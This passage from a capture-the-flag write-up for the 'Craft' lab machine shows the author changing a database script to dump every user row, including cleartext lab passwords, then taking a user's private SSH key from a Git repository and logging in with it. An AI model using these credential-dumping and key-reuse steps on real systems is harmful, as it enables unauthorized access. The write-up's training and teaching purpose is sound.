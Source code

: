 We get only one user because the `dbtest.py` script use the `cursor.fetchone()` function.
The `pymysql` [documentation]( https://pymysql.readthedocs.io/en/latest/modules/cursors.html)
indicate that we want to use the `cursor.fetchall()` function. We modify our
"script":

    :::text
    /opt/app # head -n 15 dbtest.py > dbtest2.py
    /opt/app # echo '        sql = "SELECT * from user"' >>dbtest2.py
    /opt/app # echo '        cursor.execute(sql)'>>dbtest2.py
    /opt/app # echo '        result = cursor.fetchall()'>>dbtest2.py
    /opt/app # tail -n 4 dbtest.py >>dbtest2.py
    /opt/app # python dbtest2.py
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

We can then connect to the GOGS with the `gilfoyle` credentials.

This user has a private repository containing sensitive information as his private
SSH key. The key is protected by a passphrase. That passhrase is his password!
We need to copy his private and public key in our `.ssh` folder. We also need to
change the private key permission (`chmod 600`). We can then SSH to the machine
and get the user flag:

    :::text
    ssh craft.htb -l gilfoyle


      .   *   ..  . *  *
    *  * @()Ooc()*   o  .
        (Q@*0CG*O()  ___
      |\_________/|/ _ \
      |  |  |  |  | / | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | \_| |
      |  |  |  |  |\___/
      |\_|__|__|_/|
        \_________/



    Enter passphrase for key '/root/.ssh/id_rsa':
    Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
